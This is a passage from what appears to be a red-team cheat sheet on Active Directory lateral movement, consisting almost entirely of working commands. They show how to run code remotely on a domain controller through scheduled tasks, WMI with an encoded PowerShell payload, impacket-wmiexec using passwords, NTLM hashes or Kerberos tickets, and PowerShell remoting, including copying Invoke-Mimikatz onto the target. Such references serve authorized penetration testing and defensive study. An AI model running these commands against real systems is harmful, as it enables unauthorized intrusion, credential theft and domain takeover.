 ```powershell
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```

PowerShell

#### Command execution with WMI <a href="#command-execution-with-wmi" id="command-execution-with-wmi"></a>

_Requires ‘Host’ and ‘RPCSS’ SPNs_

**From Windows**

```powershell
Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"
```

PowerShell

**From Linux**

```bash
# with password
impacket-wmiexec DOMAIN/targetuser:password@172.16.4.101

# with hash
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -hashes :e0e223d63905f5a7796fb1006e7dc594

# with Kerberos authentication (make sure your client is setup to use the right ticket, and that you have a TGS with the right SPNs)
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -no-pass -k
```

Bash

#### Command execution with PowerShell Remoting <a href="#command-execution-with-powershell-remoting" id="command-execution-with-powershell-remoting"></a>

_Requires ‘CIFS’ and ‘HTTP’ SPNs. May also need the ‘WSMAN’ or ‘RPCSS’ SPNs (depending on OS version)_

```powershell
# Create credential to run as another user (not needed after e.g. Overpass-the-Hash)
# Leave out -Credential $Cred in the below commands to run as the current user instead
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)

# Run a command remotely (can be used on multiple machines at once)
Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password instead, for use with e.g. RDP)
Enter-PsSession -ComputerName dc.targetdomain.com -Credential DOMAIN/targetuser

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt
$sess = New-PsSession -Credential $Cred -ComputerName dc.targetdomain.com
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess -Destination "C:\Users\public\"
```
